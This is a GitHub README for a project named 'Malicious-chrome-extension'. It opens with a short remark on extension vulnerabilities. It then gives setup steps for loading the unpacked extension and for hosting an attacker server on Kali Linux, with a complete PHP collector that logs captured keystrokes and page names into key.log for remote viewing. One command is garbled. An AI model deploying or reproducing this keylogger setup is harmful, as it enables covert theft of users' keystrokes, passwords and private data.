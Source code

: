 # Malicious-chrome-extension
<!-- ABOUT THE PROJECT -->
<div id="top"></div>
### About The Project

Vulnerabilities in browser extensions put users at risk by providing a way for website and network attackers to gain access to user's private data and credentials. Browser extensions can introduce serious security vulnerabilities into users browsers.

<p align="right">(<a href="#top">back to top</a>)</p>

## Getting started
1. Clone this git repository
2. Settings > Extensions > enable developer mode > Load unpacked > upload the folder  
3. In server(kali linux),
           - sudo systemctl enable apache2  
           - sudo service apache2 start      
           - cd /var/www/html    
           - sudo mkdir keylogger    
           - cd keylogger    
           - nano index.php 
              
             <?php        
              if(!isset($_POST['key'])){ ### Authenticate input      
                      echo("Access Denied!");    
                      exit(0);    
              }     
              $file = fopen("key.log","a+");    
              if(!isset($_SESSION['page']) || $_SESSION['page'] != $_POST['page']){     
                      $_SESSION['page'] = $_POST['page'];     
                      fwrite($file,"[[[ PAGE : ".$_POST['page']."]]]");     
              }    
              fwrite($file,$_POST['key']);     
              fclose($file);     
              echo('char saved!');   
                     
       - cd ..     
       - cd ..      
       - -hR www-data:www-data html     
       - Open a browser > 192.168.xx.xx/keylogger/key.log     
            




